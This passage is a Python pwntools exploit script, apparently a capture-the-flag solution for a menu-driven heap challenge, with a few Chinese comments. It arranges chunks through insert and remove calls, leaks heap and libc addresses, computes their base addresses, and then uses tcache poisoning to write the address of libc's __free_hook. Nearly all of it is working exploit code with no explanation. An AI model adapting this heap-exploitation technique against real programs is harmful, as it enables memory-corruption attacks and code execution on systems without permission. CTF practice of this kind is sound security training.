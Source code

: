 ```py
    p.recvuntil(">> ")
    p.sendline("3")
    p.recvuntil("to remove\n")
    p.sendline("%d" % key)


def edit(key, data):
    p.recvuntil(">> ")
    p.sendline("4")
    p.recvuntil("its data\n")
    p.sendline("%d" % key)
    p.recvuntil("enter the new data\n")
    p.send(data)


insert(2, 0x10, "A" * 0x10)
insert(4, 0x30, "rrr")
insert(3, 0x30, "rrr")
insert(5, 0x30, "rrr")
insert(6, 0x450, "rrr")
insert(1, 0x450, "B" * 0x4)
insert(1, 0x10, "C" * 0x10)

remove(6)
remove(3)
remove(5)
remove(4)
remove(1)

# gdb.attach(p)
show(0)
p.recvuntil("is: \n")
heap_leak = u64(p.recv(6).ljust(8, b"\x00"))
p.recv(2)
libc_leak = u64(p.recv(6).ljust(8, b"\x00"))
print(hex(heap_leak))
print(hex(libc_leak))
# gdb.attach(p)
# 0x55e9fea3d4b0 0x55e9fea3d000 0x7f3786b45be0 0x7f3786959000
libc_base = libc_leak - 0xB45BE0 + 0x959000
heap_base = heap_leak - 0x4B0
# 再来打一个 tcache poisoning
print(hex(libc_base))
print(hex(heap_base))

insert(9, 0x80, "rrr")
insert(9, 0x100, "ttt")
insert(6, 0x30, "rrr")
insert(3, 0x30, "rrr")
insert(5, 0x30, "rrr")
insert(7, 0x30, "rrr")
insert(4, 0x80, "rrr")

remove(4)
remove(5)
remove(3)
remove(7)
remove(6)

remove(9)
# gdb.attach(p)
# 此时key 是 heap_base+0x400->int
edit((heap_base + 0x3F0) & 0xFFFFFFFF, p64(libc_base + libc.symbols["__free_hook"]))
```